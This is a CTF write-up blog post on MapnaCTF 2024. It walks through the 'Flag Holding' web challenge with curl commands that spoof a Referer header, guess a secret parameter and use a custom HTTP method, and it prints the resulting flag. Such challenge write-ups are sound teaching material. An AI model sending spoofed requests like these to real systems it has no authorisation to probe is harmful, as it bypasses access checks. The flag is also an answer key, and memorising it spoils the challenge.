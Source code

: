 ```yaml
---
layout: post
title: MapnaCTF 2024 - Challenges/Writeups
categories: [CTF Jeopardy]
tags: [ctf jeopardy,forensics,web]
permalink: /posts/mapnactf2024
img_path: /images/ctfs/mapnactf2024/
datafile: mapnactf2024
image:
  path: icon.png
---
```


Multiple members of IrisSec and myself (a new member of IrisSec!) participated in MapnaCTF 2024 and placed 2nd! This writeup only contains the challenges I personally solved or contributed to. I hope you enjoy!

You can join the Discord community for this CTF (with more writeups!) [here](https://discord.gg/tBGyp7pP2y).

## Web/Flag Holding (289 solves)
> Hopefully you know how web works...

Initially with the webserver given I visit the page, and this particular portion of text is displayed:

`You are not coming from "http://flagland.internal/”`

I move to cURL to do this challenge, and determine this is probably referring to the `Referer` header.

```
$ curl "http://18.184.219.56:8080/" -H "Referer: http://flagland.internal/"
Unspecified "secret".
```

Interesting, I make a new parameter `secret` and set it with a value of `1`.

```
$ curl "http://18.184.219.56:8080/?secret=1" -H "Referer: http://flagland.internal/"
Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... —>
```

The hint is likely to be filled with `http`.

```
$ curl "http://18.184.219.56:8080/?secret=http" -H "Referer: http://flagland.internal/"
Sorry we don't have "GET" here but we might have other things like "FLAG”.
```

I change the method from `GET` to `FLAG`.

```
$ curl -X FLAG "http://18.184.219.56:8080/?secret=http" -H "Referer: http://flagland.internal/"
MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}
```
